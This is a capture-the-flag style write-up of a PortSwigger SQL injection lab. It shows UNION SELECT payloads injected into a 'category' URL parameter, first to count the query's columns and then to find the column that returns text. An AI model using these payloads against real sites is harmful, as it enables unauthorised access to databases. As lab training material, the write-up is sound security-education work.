 ```yaml
---
title: PSA - SQLi 4 - Finding column containing text
date: 2023-03-03
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided.

Value provided: '`abc`'

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

We now know there are 3 columns. Time to find which one contains string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,'abc'--    # error!
````

The second column contains string.
